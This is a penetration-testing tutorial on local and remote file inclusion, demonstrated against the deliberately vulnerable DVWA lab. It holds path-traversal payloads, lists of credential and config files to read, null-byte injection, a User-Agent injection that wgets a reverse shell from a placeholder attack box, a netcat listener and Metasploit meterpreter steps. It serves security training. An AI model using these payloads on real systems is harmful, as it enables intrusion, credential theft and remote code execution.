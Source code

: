# Local and Remote File Inclusion

File inclusion vulnerabilities allow attackers to use crafted requests to read local files on the webserver (including log files, configuration files, etc.). This has the potential to lead to remote code execution and DoS. This is generally a result of poor input validation.

Remote File Inclusion is similar but affects files on remote servers - such as malicious code that executes in the context of the user running the web server on any client devices that visit a compromised webpage. 

Damn Vulnerable Web Application on Metasploitable - http://10.15.1.250/dvwa/ - admin:password.
Set security level settings to `LOW`. 

## LFI Example

Lets look at LFI first.

To include a file, edit `?page=index.php` to instead list the file we wish to include. If we view page source, we can see:
```php
# This means whatever 'file' we specify via the URI will be retrieved
<?php
      $file = $_GET['page'];
?>
```

Lets evaluate the `/etc/passwd` file - we know the following information:

* The page being served is at 10.11.1.250/dvwa/vulnerabilities/fi/?page=include.php
* Default web directories are either `/var/www/html` or `/var/www/` 
* We can assume the full path being served is `/var/www/html/dvwa/vulnerabilities/fi/`

If we wanted to reach `/etc/passwd` from the `WEBROOT` context, the following path should suffice:

`http://10.11.1.250/dvwa/vulnerabilities/fi/?page=../../../../../etc/passwd` 

Interesting files to search for:
```bash
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname

Apache access log: /var/log/apache/access.log
Apache access log: /var/log/apache2/access.log
Apache access log: /var/log/httpd/access_log
Apache error log: /var/log/apache/error.log
Apache error log: /var/log/apache2/error.log
Apache error log: /var/log/httpd/error_log
General messages and system related entries: /var/log/messages
Cron logs: /var/log/cron.log
Authentication logs: /var/log/secure or /var/log/auth.log

WordPress: /var/www/html/wp-config.php
Joomla: /var/www/configuration.php
Dolphin CMS: /var/www/html/inc/header.inc.php
Drupal: /var/www/html/sites/default/settings.php
Mambo: /var/www/configuration.php
PHPNuke: /var/www/config.php
PHPbb: /var/www/config.php
OpenLiteSpeed: /opt/openlitespeed/ols.conf
```

To check for LFI on Windows we can search for a common file:
`C:/Windows/System32/drivers/etc/hosts`

The following are interesting files we might search for :

```bash
C:/Windows/Panther/Unattend/Unattended.xml
C:/Windows/Panther/Unattended.xml
C:/Windows/Panther/Unattend.txt
C:/Unattend.xml
C:/Autounattend.xml
C:/Windows/system32/sysprep

C:/inetpub/wwwroot/
C:/inetpub/wwwroot/web.config
C:/inetpub/logs/logfiles/

C:/documents and settings/administrator/desktop/desktop.ini
C:/documents and settings/administrator/ntuser.dat
C:/documents and settings/administrator/ntuser.ini
C:/users/administrator/desktop/desktop.ini
C:/users/administrator/ntuser.dat
C:/users/administrator/ntuser.ini
C:/windows/windowsupdate.log

C:/xampp/apache/conf/httpd.conf
C:/xampp/security/webdav.htpasswd
C:/xampp/apache/logs/access.log
C:/xampp/apache/logs/error.log
C:/xampp/tomcat/conf/tomcat-users.xml
C:/xampp/tomcat/conf/web.xml
C:/xampp/webalizer/webalizer.conf
C:/xampp/webdav/webdav.txt
C:/xampp/apache/bin/php.ini
C:/xampp/apache/conf/httpd.conf
```

## RFI Example

Remote file inclusion includes files on a remote location, like a web server. 
We can determine the vulnerability by hosting a file on our system, and attempting to include it:

`http://10.11.1.250/dvwa/vulnerabilities/fi/?page=http://192.168.255.4/pwned`
To successfully include remote files in PHP requires `allow_url_fopen = On` and `allow_url_include = On`.
These are configured in `phpinfo.php` which can be determined from `/var/www/html/dvwa` and indicates the `php.ini`existing in `/etc/php6/cgi/php.ini`. 

Once modified, and the web service restarted, we can now see remote file inclusion is successful. 
Normally, we don't typically have control over the php.ini file.

## Null Byte Injection

In some cases you need to add a null bye terminator to the LFI/RFI vulnerable parameter. 
This looks like `%00` or `0x00` and represents a string termination. This can alter behavior by terminating program logic from processing anything after the null byte.

Consider this:
```php
$file = $_GET['page'];
require_once("/var/www/$file.php");
```

An inclusion for `/etc/passwd` would search for `/var/www/etc/passwd.php` - we can include the null terminator to then prevent this from occurring:
`http://website/page=../../../etc/passwd%00`

## Retrieving a Shell

To try `proc/self/environ` on `DVWA` we can use Burp suite.
Lets try: `http://10.11.1.250/dvwa/vulnerabilities/fi/?page=../../../../proc/self/environ`
If this returns, we know the Webserver can read proc/self/environ - for most systems this should not be readable by non-root accounts. 

Knowing this is possible, we can now attempt to gain a shell.

First we need to point traffic from our browser to Burp suite, by providing proxy settings:
`Preferences -> Advanced -> Network -> Connection -> Settings`
Choose Manual proxy configuration and enter port `8080`. 

We can then start burp suite. At this point all browser traffic is forwarded through the proxy, and will not be sent through unless explicitly "Forwarded".

```shell
burpsuite
```

We can use this to execute a reverse shell, which contains [shellcode](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

Update the listener host and port back to your system (the address your attack box is at)
Set executable permissions to 755, then serve the file: `python -m SimpleHttpServer 80` or `python3 -m http.server 80`.  Once we reload the original page, we can now modify the User-Agent string in Burp to download the file:

```bash
<?system('wget http://[IP Attack box]/revshell.txt -O shell.php');?>
```

Once forwarded, the modified request is sent to the web server, which will download the reverse shell, and store it as shell.php. This is stored in the same directory as the vulnerable page.  Before we execute the reverse shell, lets setup a listener:
```bash
nc -lvp 80
```

Lastly we can execute the shell on the webserver by using the following URL to have it loaded:
`http://10.11.1.250/dvwa/vulnerabilities/fi/shell.php`

### What could happen?

* Make sure you have IP and Port settings correct in the reverse shell file and netcat listener
* Make sure revshell.txt can be downloaded from the attack box.
* Make sure the file is a `.txt` and not `.php` if the attack box web server support PHP execution. If PHP execution is enabled, the PHP will be executed locally on your webserver instead of being downloaded by the target.

## Metaploit php_include

We can exploit a local file inclusion with Metasploit to get a shell.

```bash
msfconsole
use exploit/unix/webapp/php_include
show options
### PHPURI: The URI to request where the vulnerable parameter is specified as XXpathXX.
### PATH: The base directory to prepend to the URL.
### RHOST: Remote host
### HEADERS: Cookie containing the PHPSESSID and the security value.
```

We need to capture the PHPSESSID (PHP Session ID) to be set as an option. We can use Burp suite to do this, or a Firefox Plugin named [Cookie Manager+](https://addons.mozilla.org/nl/firefox/addon/cookies-manager-plus/)

We need to login to the DVWA application, and open `Cookie Manager+` to get the session id. 
With this we can construct headers like:
`set HEADERS "Cookie:security=low; PHPSESSID=f7c5f19dfdbfca8021190b6d242a94c9"`

Going back to Metasploit and continuing where we left off:
```bash
set PHPURI /?page=XXpathXX # Literally
set PATH /dvwa/vulnerabilities/fi/
set RHOST 10.11.1.250
set LHOST 192.168.255.4
set payload php/meterpreter/bind_tcp
run
```




